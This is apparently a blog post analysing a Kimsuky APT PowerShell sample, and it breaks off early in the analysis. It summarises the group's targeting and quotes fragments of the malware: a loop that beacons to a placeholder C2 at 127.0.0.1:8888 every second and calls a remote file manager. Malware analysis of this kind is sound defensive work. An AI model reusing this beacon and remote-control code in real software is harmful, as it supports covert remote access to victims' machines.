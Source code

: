 ```yaml
---
title: Kimsuky 2
date: 2024-03-09 20:55:00 +0800
categories: [Malware,APT,Kimsuky]
tags: [Kimsuky]
---
```

### Introduction

![Kimsucky](https://cdn.vox-cdn.com/thumbor/0lAn6qSiBNoeYH9MukRhxR8n1U8=/0x0:5472x3648/1200x800/filters:focal(1208x1309:2082x2183)/cdn.vox-cdn.com/uploads/chorus_image/image/57123343/shutterstock_498172096.0.jpg "Kimsucky")
*[Image Credits](https://www.vox.com/world/2017/10/13/16465882/north-korea-cyber-attack-capability-us-military)*

In my previous [blog post](https://somedieyoungzz.github.io/posts/kimsucky-apt-analysis/), I covered the analysis of a North Korean-based APT group called Kimsucky APT. We examined a malicious document that utilized a PowerShell script for the adversary's purposes. Let's revise some key points about Kimsucky :

- Targets: Primarily targets organizations in South Korea, Japan, and the United States
- Techniques: Often uses malicious documents containing exploits or links to download malware that can steal data or provide remote access.
- Tactics: Employs social engineering techniques (like spear phishing) and watering hole attacks to gain initial access to victim systems.

I found this particular sample of the Kimsucky in wild while doing my daily after wake-up bazaar browsing. Interestingly the sample is very simple and will help people understand how Powershell works. Unfortunately the sample I found didn't had any connections or the C2's IP was missing from the script.



### Powershell Analysis
#### Server Connection 
Even though the script itself is not at obfuscated or difficult to understand at all but the length of script is very long so we will try and analyse it part by part. We will start at the bottom of the script first to understand the control flow.
```powershell
// Has 800 line of code above it
while( $true ) {
        $fContinue = CommunicationWithServer -StrIp "127.0.0.1" -UPort 8888;
        if( $fContinue -eq $false ) {
            Write-Host "Server requests to close client.";
            break;
        }
        Start-Sleep -Seconds 1;
    }
RemoteFileManager
```

This code keeps on trying to connect to the remote server every second unless the server requests to disconnect otherwise it keeps connecting indefinitely. Here we see references to two functions namely **CommunicationWithServer** and **RemoteFileManager**. Let's look at each one of them.
#### CommunicationWithServer
This function is really big so we will divide it into small parts.
```powershell
 Function CommunicationWithServer
    {
        [CmdletBinding()]
        Param (
            [Parameter(Position = 0, Mandatory = $True)]
            [String] $StrIp,
            [Parameter(Position = 1, Mandatory = $True)]
            [uint16] $UPort
        )
```